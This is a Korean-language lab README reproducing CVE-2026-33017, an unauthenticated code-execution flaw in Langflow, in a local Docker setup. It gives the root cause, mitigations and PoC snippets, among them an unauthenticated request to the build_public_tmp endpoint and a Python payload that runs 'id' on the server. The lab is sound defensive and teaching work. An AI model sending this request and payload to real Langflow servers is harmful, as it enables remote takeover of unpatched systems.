


# CVE-2026-33017: Langflow Public Flow Build 엔드포인트 무인증 RCE

> 작성자: 김인서<br>
> GitHub: [@dlsth447316](https://github.com/dlsth447316)

Langflow의 Public Flow 빌드 엔드포인트가 요청자가 보낸 Flow 데이터를 그대로 처리하면서 발생하는 원격 코드 실행 취약점이다.

이 디렉터리는 CVE-2026-33017을 로컬 Docker 환경에서 재현하기 위해 만들었다. PoC는 `127.0.0.1`만 대상으로 하며, 외부 서버 연결이나 역방향 셸 동작은 포함하지 않는다.

---

## 1. 취약점 요약

| 항목 | 내용 |
| --- | --- |
| CVE | CVE-2026-33017 |
| GHSA | GHSA-vwmf-pq79-vjvx |
| 제품 | Langflow |
| 취약점 유형 | Unauthenticated Remote Code Execution |
| 영향 버전 | Langflow 1.8.2 이하 |
| 패치 버전 | Langflow 1.9.0 이상 |
| 실습 버전 | Langflow 1.7.3 |
| 취약 엔드포인트 | `POST /api/v1/build_public_tmp/{flow_id}/flow` |
| CWE | CWE-94, CWE-95, CWE-306 |
| Risk Score | 9.3 / 10.0 |
| CVSS | CVSS v4.0 |
| CVSS 벡터 | `CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:H/VI:H/VA:H/SC:L/SI:L/SA:L` |

`build_public_tmp`는 Public Flow를 인증 없이 실행하기 위한 엔드포인트다. 문제는 요청 본문에 `data`가 포함되면 데이터베이스에 저장된 Flow가 아니라 요청자가 전달한 Flow 데이터를 사용한다는 점이다.

공격자는 Custom Component의 코드 영역에 Python 코드를 넣을 수 있다. 이 코드는 그래프 빌드 과정에서 샌드박스 없이 `exec()`에 전달되므로 Langflow 프로세스 권한으로 실행된다.

공식 Advisory는 Langflow 1.7.3에서 반복 재현한 결과를 제공하며, 실제 취약점 요청에 계정이나 API 키가 필요하지 않음을 설명한다.

### Risk Score 근거

| 지표 | 값 | 판단 근거 |
| --- | --- | --- |
| Attack Vector | Network | HTTP API를 통해 원격 접근 가능 |
| Attack Complexity | Low | 복잡한 경쟁 조건이나 별도 우회가 필요하지 않음 |
| Attack Requirements | None | 특수한 실행 조건이 필요하지 않음 |
| Privileges Required | None | 실제 취약점 요청에 인증 정보가 필요하지 않음 |
| User Interaction | None | 사용자의 추가 동작이 필요하지 않음 |
| Vulnerable System Confidentiality | High | 파일, 환경변수, 저장된 자격증명에 접근 가능 |
| Vulnerable System Integrity | High | 파일과 서비스 데이터를 변경할 수 있음 |
| Vulnerable System Availability | High | 프로세스 종료나 자원 고갈이 가능 |
| Subsequent System Confidentiality | Low | 후속 시스템에 제한적인 영향 가능 |
| Subsequent System Integrity | Low | 후속 시스템에 제한적인 변경 가능 |
| Subsequent System Availability | Low | 후속 시스템에 제한적인 가용성 영향 가능 |

일부 자료는 CVSS v3.1 기준 9.8을 사용하지만, 여기서는 공식 GitHub Security Advisory에 표시된 CVSS v4.0 점수 9.3을 기준으로 삼았다.

### 실제 악용 사례

Trend Micro는 2026년 6월 CVE-2026-33017을 초기 침투 경로로 사용한 암호화폐 채굴 캠페인을 공개했다. 공격 과정에는 채굴기 설치, 지속성 확보, 보안 기능 비활성화, 노출된 SSH 키를 이용한 추가 확산이 포함됐다.

---

## 2. 환경 구성

### 빠른 시작

저장소 루트에서 다음 명령을 실행한다.

```bash
cd Langflow/CVE-2026-33017

docker compose up --build -d
docker compose ps
python3 poc.py
```

컨테이너가 막 시작된 상태에서는 `health: starting`으로 보일 수 있다. `poc.py`가 Langflow API가 준비될 때까지 최대 300초 동안 기다리므로 별도로 재실행할 필요는 없다.

### 환경 정보

| 구성 요소 | 버전 또는 설정 |
| --- | --- |
| Langflow | 1.7.3 |
| Python | 3.11 |
| PyTorch | 2.13.0+cpu |
| Torchvision | 0.28.0+cpu |
| CUDA | 사용하지 않음 |
| 호스트 주소 | `127.0.0.1:7860` |
| 컨테이너 포트 | 7860 |
| 컨테이너 이름 | `langflow-cve-2026-33017` |
| 이미지 크기 | 약 1.2GB |

### 파일 구성

```text
CVE-2026-33017/
├── .dockerignore
├── .gitignore
├── Dockerfile
├── README.md
├── constraints.txt
├── docker-compose.yml
├── images/
│   ├── 01-environment.png
│   └── 02-poc-result.png
├── payload.json
├── poc.py
└── requirements-cpu.txt
```

| 파일 | 역할 |
| --- | --- |
| `Dockerfile` | Langflow 1.7.3 취약 환경 빌드 |
| `docker-compose.yml` | 컨테이너 실행과 healthcheck 설정 |
| `constraints.txt` | 검증한 Python 패키지 버전 고정 |
| `requirements-cpu.txt` | CPU 전용 PyTorch와 Torchvision 설치 |
| `payload.json` | 공격자가 전달하는 Flow 데이터 |
| `poc.py` | Public Flow 생성, 취약점 요청, 실행 결과 확인 |
| `images/` | 환경과 PoC 실행 결과 스크린샷 |

### 버전 고정

베이스 이미지는 태그가 변경되는 상황을 피하기 위해 digest로 고정했다.

```dockerfile
FROM python@sha256:f5cf0344c9886ff24d34797578d5d7dd6e8911ae0fe5962bb55d0f89603ec361
```

빌드 도구도 실제로 검증한 버전을 사용한다.

```text
pip==25.3
setuptools==80.10.2
wheel==0.47.0
```

주요 패키지 버전은 다음과 같다.

```text
langflow==1.7.3
langflow-base==0.7.3
lfx==0.2.2
torch==2.13.0+cpu
torchvision==0.28.0+cpu
```

전체 Python 의존성은 `constraints.txt`에 기록했다.

### CPU 전용 이미지

기본 의존성으로 설치했을 때는 GPU용 PyTorch와 NVIDIA CUDA 관련 패키지가 포함되어 이미지가 약 3.6GB까지 커졌다.

이 취약점 재현에는 GPU가 필요하지 않아 CPU 전용 wheel로 변경했고, 최종 이미지 크기를 약 1.2GB로 줄였다. 변경 후에도 Langflow 실행, healthcheck, PoC가 모두 정상 동작하는 것을 확인했다.



---

## 3. 취약 조건

취약점이 재현되려면 다음 조건이 필요하다.

1. Langflow 1.8.2 이하 버전이어야 한다.
2. Public Flow가 하나 이상 존재해야 한다.
3. 공격자가 Public Flow의 UUID를 알고 있어야 한다.
4. `build_public_tmp` 엔드포인트에 접근할 수 있어야 한다.
5. 요청에 `client_id` 쿠키가 있어야 한다. 값은 임의 문자열이어도 된다.

실제 취약점 요청에는 다음 정보가 필요하지 않다.

- 사용자 계정과 비밀번호
- API 키
- Bearer 토큰
- `Authorization` 헤더
- 인증된 사용자 세션

### AUTO_LOGIN과 실제 공격 요청

Docker 환경에는 Public Flow 생성을 자동화하기 위해 다음 설정을 사용한다.

```yaml
LANGFLOW_AUTO_LOGIN: "true"
```

`poc.py`는 먼저 `/api/v1/auto_login`에서 토큰을 받고, 그 토큰으로 Public Flow를 만든다. 이 과정은 재현 환경을 준비하기 위한 단계다.

```text
GET /api/v1/auto_login
        |
        v
실습용 토큰 획득
        |
        v
POST /api/v1/flows/
Authorization: Bearer <TOKEN>
        |
        v
Public Flow 생성
```

실제 취약점 요청에는 위 토큰을 사용하지 않는다.

```text
POST /api/v1/build_public_tmp/{flow_id}/flow
Cookie: client_id=attacker

Authorization: 없음
API Key: 없음
인증 세션: 없음
```

이미 Public Flow와 UUID가 존재한다면 AUTO_LOGIN과 Flow 생성 단계는 생략할 수 있다.

따라서 `AUTO_LOGIN=true`는 실습 환경을 자동으로 준비하기 위한 설정이고, 취약점의 원인은 Public Flow 엔드포인트가 요청자가 보낸 실행 가능한 `data`를 신뢰하는 데 있다.

---

## 4. 취약점 원인

요청 본문에 `data`가 없으면 서버는 저장된 Flow를 불러온다. 반대로 `data`가 있으면 요청자가 전달한 Flow를 그래프 생성 과정에 사용한다.

공격자 데이터는 다음 경로로 전달된다.

```text
POST /api/v1/build_public_tmp/{flow_id}/flow
                 |
                 v
       attacker-controlled data
                 |
                 v
          start_flow_build()
                 |
                 v
        generate_flow_events()
                 |
                 v
            create_graph()
                 |
                 v
       Graph.from_payload()
                 |
                 v
     instantiate_component()
                 |
                 v
   eval_custom_component_code()
                 |
                 v
          create_class()
                 |
                 v
      prepare_global_scope()
                 |
                 v
  exec(compiled_code, exec_globals)
```

`prepare_global_scope()`는 Custom Component 코드의 import와 최상위 정의를 처리한다. 이때 `ast.Assign` 노드도 실행 대상에 포함된다.

따라서 아래와 같은 대입문은 Flow가 실제로 실행되기 전, 그래프를 만드는 과정에서 평가된다.

```python
_result = os.system("id")
```

이번 PoC는 같은 방식으로 `id` 명령 결과와 컨테이너 호스트명을 `/tmp/rce-proof`에 기록한다.

### CVE-2025-3248과의 차이

CVE-2025-3248은 `/api/v1/validate/code` 엔드포인트에 인증 검사가 빠진 문제였다.

CVE-2026-33017은 Public Flow 엔드포인트가 인증 없이 동작하는 것 자체보다, 요청자가 전달한 Flow 데이터와 Custom Component 코드를 그대로 처리하는 것이 핵심이다.

| 구분 | CVE-2025-3248 | CVE-2026-33017 |
| --- | --- | --- |
| 엔드포인트 | `/api/v1/validate/code` | `/api/v1/build_public_tmp/{flow_id}/flow` |
| 기능 | 코드 검증 | Public Flow 빌드 |
| 원인 | 코드 검증 기능의 인증 누락 | 공격자 제공 실행 데이터를 Public Flow 빌드에 사용 |
| 대응 | 인증 검사 추가 | 요청의 `data` 제거, 저장된 Flow만 사용 |

---

## 5. 재현 절차

PoC의 대상은 코드에 다음 주소로 고정되어 있다.

```text
http://127.0.0.1:7860
```

호스트에서는 Python 3만 필요하다. `poc.py`는 외부 Python 패키지를 사용하지 않는다.

환경이 실행된 상태에서 다음 명령을 실행한다.

```bash
python3 poc.py
```

PoC는 아래 순서로 진행된다.

1. Langflow API가 준비될 때까지 기다린다.
2. 컨테이너에 설치된 Langflow 버전을 확인한다.
3. 이전 실행에서 남은 `/tmp/rce-proof`를 삭제한다.
4. 실습 준비용 AUTO_LOGIN 토큰을 얻는다.
5. Public Flow를 만들고 UUID를 확인한다.
6. `payload.json`을 불러온다.
7. 인증 헤더 없이 취약 엔드포인트를 호출한다.
8. 응답에 `job_id`가 있는지 확인한다.
9. 컨테이너 내부에 `/tmp/rce-proof`가 생성됐는지 확인한다.
10. 파일에 실제 명령 실행 결과가 있을 때만 성공으로 처리한다.

---

## 6. PoC 코드

### 6.1 Public Flow 생성

Public Flow를 만드는 단계에서만 토큰을 사용한다.

```python
def create_public_flow(token: str) -> str:
    body = {
        "name": "CVE-2026-33017 Automated Lab",
        "data": {
            "nodes": [],
            "edges": [],
        },
        "access_type": "PUBLIC",
    }

    status, raw = request(
        "POST",
        "/api/v1/flows/",
        body=body,
        headers={"Authorization": f"Bearer {token}"},
    )

    response = parse_json(raw, "flow creation")
    return response["id"]
```

### 6.2 무인증 취약점 요청

실제 취약점 요청에는 `Authorization` 헤더, API 키, 인증 세션이 없다.

```python
def trigger_vulnerability(
    flow_id: str,
    payload: dict[str, Any],
) -> tuple[int, str]:
    return request(
        "POST",
        f"/api/v1/build_public_tmp/{flow_id}/flow",
        body=payload,
        headers={"Cookie": "client_id=attacker"},
    )
```

`client_id=attacker`는 로그인 상태를 증명하는 세션 쿠키가 아니다. Public Flow 엔드포인트가 요구하는 임의 문자열 값이다.

### 6.3 실행 페이로드

`payload.json`의 Custom Component에는 다음 코드가 포함되어 있다.

```python
import os
import socket

_proof = os.popen("id").read().strip()
_host = socket.gethostname()
_written = open("/tmp/rce-proof", "w").write(
    f"{_proof} on {_host}"
)
```

페이로드는 `id` 결과와 컨테이너 호스트명만 로컬 파일에 기록한다. 외부 연결, 역방향 셸, 지속성 확보 코드는 넣지 않았다.

### 6.4 실행 결과 확인

HTTP 200과 `job_id`만으로는 코드 실행을 확인할 수 없다. 요청은 접수됐지만 그래프 빌드 중 오류가 났을 가능성이 있기 때문이다.

PoC는 컨테이너 안에서 증거 파일을 직접 확인한다.

```python
def wait_for_proof() -> str:
    deadline = time.monotonic() + PROOF_TIMEOUT

    while time.monotonic() < deadline:
        result = docker_exec(
            "sh",
            "-lc",
            f"test -f {PROOF_FILE} && cat {PROOF_FILE}",
        )

        proof = result.stdout.strip()

        if result.returncode == 0 and proof:
            return proof

        time.sleep(2)

    raise PoCError(
        f"The HTTP request was accepted, but {PROOF_FILE} was not created"
    )
```

전체 코드는 [`poc.py`](poc.py), Flow 데이터는 [`payload.json`](payload.json)에서 확인할 수 있다.

---

## 7. 실행 결과

정상적으로 재현되면 다음과 같이 출력된다.

```text
[*] Waiting for Langflow at http://127.0.0.1:7860
[+] Langflow API is ready
[+] Langflow version: 1.7.3
[+] Previous proof file cleared
[+] Lab setup token acquired
[+] Public flow created: <FLOW_UUID>
[+] payload.json loaded
[+] Unauthenticated exploit request: HTTP 200
[+] Job ID: <JOB_UUID>

============================================================
[+] CVE-2026-33017 RCE CONFIRMED
[+] Proof: uid=0(root) gid=0(root) groups=0(root) on <CONTAINER_ID>
============================================================
```



`HTTP 200`과 `job_id`는 서버가 그래프 빌드 작업을 접수했다는 뜻이다. 그 뒤 `/tmp/rce-proof`에서 `id` 실행 결과가 확인되므로, 요청에 포함된 Python 코드가 Langflow 서버 프로세스에서 실행됐음을 알 수 있다.

출력의 `uid=0(root)`는 Docker 컨테이너 내부의 root 권한이다. 호스트 root 권한 획득이나 컨테이너 탈출을 의미하지 않는다.

실제 영향은 Langflow 프로세스 권한, 볼륨 마운트, 네트워크 접근 범위, 컨테이너 내부에 저장된 자격증명에 따라 달라진다.

---

## 8. 대응 방안

### 8.1 버전 업데이트

최소 Langflow 1.9.0 이상으로 업데이트한다.

```bash
python3 -m pip install --upgrade "langflow>=1.9.0"
```

설치된 버전은 다음 명령으로 확인할 수 있다.

```bash
python3 -c 'import importlib.metadata as m; print(m.version("langflow"))'
```

### 8.2 패치 버전 혼선

JFrog Security Research가 2026년 3월 분석을 공개할 당시, Langflow 1.8.2는 여러 공개 자료에서 수정 버전처럼 안내되고 있었다.

그러나 JFrog가 PyPI 패키지와 공식 Docker 이미지를 직접 확인한 결과 1.8.2에서도 RCE가 재현됐다. 이후 공식 Advisory의 영향 범위가 정정됐고, 현재는 1.8.2 이하를 취약 버전으로, 1.9.0 이상을 패치 버전으로 안내한다.

따라서 1.8.2를 안전한 버전으로 판단하면 안 된다. 최소 패치 기준은 1.9.0이다.

### 8.3 공격자 제공 `data` 제거

Public Flow 빌드 요청에서 외부 입력으로 전달된 Flow 데이터를 사용하지 않아야 한다.

```text
취약한 처리

Public request
      |
      v
요청 본문의 data 사용
      |
      v
공격자 Flow 빌드
```

```text
안전한 처리

Public request
      |
      v
Public Flow UUID 확인
      |
      v
데이터베이스에서 저장된 Flow 로드
      |
      v
저장된 Flow만 빌드
```

Public Flow 엔드포인트에서는 데이터베이스에 저장된 Flow만 사용하고, 요청 본문의 Custom Component 코드가 실행 경로로 전달되지 않도록 해야 한다.

### 8.4 운영 환경 완화책

패치를 바로 적용하기 어렵다면 다음 조치를 함께 적용한다.

- 사용하지 않는 Public Flow 비활성화
- 외부 네트워크에서 Langflow 접근 제한
- 공개된 Flow UUID와 공유 링크 점검
- Langflow를 최소 권한 사용자로 실행
- Docker 소켓과 불필요한 호스트 볼륨을 마운트하지 않음
- 컨테이너에 장기 자격증명을 저장하지 않음
- `build_public_tmp` 요청과 Custom Component 빌드 로그 모니터링
- 침해가 의심되면 API 키, DB 비밀번호, 클라우드 토큰, SSH 키 교체

---

## 9. Reproducibility 검증

다음 항목을 실제 환경에서 확인했다.

| 검증 항목					| 결과		|
| ---						| ---		|
| Langflow 1.7.3 설치				| 통과		|
| 베이스 이미지 digest 고정			| 통과		|
| pip, setuptools, wheel 버전 고정		| 통과		|
| 전체 Python 의존성 constraints 적용		| 통과		|
| CPU 전용 PyTorch 적용				| 통과		|
| `python -m pip check`				| 통과		|
| Docker 무캐시 빌드				| 통과		|
| 컨테이너 healthcheck				| 통과		|
| 자동화 PoC 실행					| 통과		|
| 컨테이너와 네트워크 초기화 후 반복 재현	| 3/3 성공	|
| 서버 측 증거 파일 확인				| 통과		|
| 로컬 스크린샷과 상대경로 사용			| 통과		|
| PoC 대상 로컬 주소 고정				| 통과		|

Langflow가 시작되는 동안 연결 거부나 연결 재설정이 발생할 수 있어 `poc.py`에 재시도 처리를 넣었다.

최종 Reproducibility 점수는 저장소 관리자가 제출된 파일을 그대로 실행한 뒤 평가한다.

### 환경 정리

```bash
docker compose down -v --remove-orphans
```

이미지까지 삭제하려면 다음 명령을 실행한다.

```bash
docker image rm cve-2026-33017-langflow:latest
```

---

## 10. 참고 자료

- [GitHub Security Advisory](https://github.com/langflow-ai/langflow/security/advisories/GHSA-vwmf-pq79-vjvx)
- [CVE Record](https://www.cve.org/CVERecord?id=CVE-2026-33017)
- [NVD - CVE-2026-33017](https://nvd.nist.gov/vuln/detail/CVE-2026-33017)
- [CISA KEV - CVE-2026-33017 등재 (2026.03.25)](https://www.cisa.gov/known-exploited-vulnerabilities-catalog)
- [JFrog Security Research - Langflow 1.8.2 불완전 패치 확인](https://research.jfrog.com/post/langflow-latest-version-was-not-fixed/)
- [Trend Micro - From Langflow to Monero](https://www.trendmicro.com/en_us/research/26/f/from-langflow-to-monero-inside-cve-2026-33017-cryptominer.html)
- [Langflow GitHub Repository](https://github.com/langflow-ai/langflow)
- [Korean Vulhub Repository](https://github.com/gunh0/kr-vulhub)